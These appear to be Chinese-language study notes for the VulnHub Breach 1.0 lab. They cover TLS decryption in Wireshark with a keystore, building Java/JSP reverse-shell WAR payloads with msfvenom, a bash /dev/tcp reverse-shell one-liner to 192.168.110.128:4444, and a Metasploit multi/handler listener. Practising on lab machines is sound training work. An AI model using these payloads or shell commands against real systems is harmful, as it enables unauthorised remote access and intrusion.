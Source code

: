 

# 引言

>[红日安全：vulnhub靶场实战指南]

* breach1.0：

    >https://blog.csdn.net/qq_32393893/article/details/124860465
    >https://blog.csdn.net/guo15890025019/article/details/117701086
    >[msfvenom](https://blog.csdn.net/qq_44276741/article/details/114387808)



# 一：breach 1.0

## 启发

* keytool

    密钥管理工具

    `keytool -list -keystore` 根据具体用法生成.p12密钥文件

    wireshark->编辑->首选项->Protocols->TLS(新版本的wireshark没有单独的SSL选项了)，edit，选定ip和端口，选中对应密钥文件，输入密码

* 上传shell

    `msfvenom -p 模块 -f 格式 -o 输出文件名`做shell

    做war扩展shell方法:

    ```s
    
    法1

    msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxxx -f jsp -o shell.jsp

    zip -r shell.zip shell.jsp
    cp shell.zip shell.war

    法2

    msfvenom -p java/meterpreter/reverse_tcp lhost=xxx.xxx.xxx.xxx lport=xxxx -f war -o shell.war

    (ps:第二种我没成功，用第一种才整好，不知道为什么)

    附弹shell:

    echo "bash -i >& /dev/tcp/192.168.110.128/4444 0>&1" | bash

    ```

* 监听

    `msf`的`multi/handler`模块

    ```php

    search multi/handler
